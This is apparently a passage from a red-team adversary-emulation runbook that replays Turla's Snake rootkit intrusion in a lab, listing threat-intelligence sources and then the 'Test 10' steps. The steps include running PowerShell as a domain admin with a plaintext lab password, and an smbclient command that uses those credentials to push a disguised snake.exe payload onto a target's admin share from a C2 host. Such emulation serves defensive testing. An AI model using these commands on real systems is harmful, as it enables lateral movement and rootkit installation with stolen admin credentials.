 ### :microscope: Cited Intelligence

* <https://securelist.com/analysis/publications/65545/the-epic-turla-operation/>
* <https://www.symantec.com/content/en/us/enterprise/media/security_response/whitepapers/waterbug-attack-group.pdf>
* <https://media.kasperskycontenthub.com/wp-content/uploads/sites/43/2018/03/08080105/KL_Epic_Turla_Technical_Appendix_20140806.pdf>
* <https://recon.cx/2018/brussels/resources/slides/RECON-BRX-2018-Visiting-The-Snake-Nest.pdf>
* <https://www.govcert.ch/downloads/whitepapers/Report_Ruag-Espionage-Case.pdf>
* <https://docs.broadcom.com/doc/waterbug-attack-group>
* <https://www.welivesecurity.com/2020/03/12/tracking-turla-new-backdoor-armenian-watering-holes/>
* <https://www.welivesecurity.com/2017/06/06/turlas-watering-hole-campaign-updated-firefox-extension-abusing-instagram/>


## Test 10: Install Snake on First Target

:microphone: `Voice Track:`

Test 10 emulates Turla exploiting a vulnerable driver to install the Snake rootkit 
on the `Azuolas` system and then performing discovery on `Azuolas` to
discover a file server and associated file server admin.

---

### :biohazard: Procedures

* :arrow_right: Switch to your RDP session to `azuolas` as `egle`.

* Open a Powershell prompt and run the following command:
```pwsh
runas /user:nk\egleadmin powershell
```
* When prompted, type in the password for `EgleAdmin`:

| Username   | Password |
| :--------: | :---------------: |
| nk\EgleAdmin | Producer1! |

* A new powershell window should pop up. Run the following command to ensure that you are running as `nk\EgleAdmin`:
```pwsh
whoami
```

:arrow_right: Return to your Kali C2 server terminal window

* From your `smbclient` Kali terminal tab, transfer the Snake installer to `Azuolas`.
```bash
smbclient -U 'nk\EgleAdmin'%'Producer1!' //10.100.40.103/c$ -c 'put /opt/day2/turla/Resources/payloads/epic/snake.exe Users\egle\Desktop\gusbsys.exe'
```

* :arrow_right: Switch to your RDP session to `azuolas` as `egle`.

* Open File Explorer and browse to Desktop
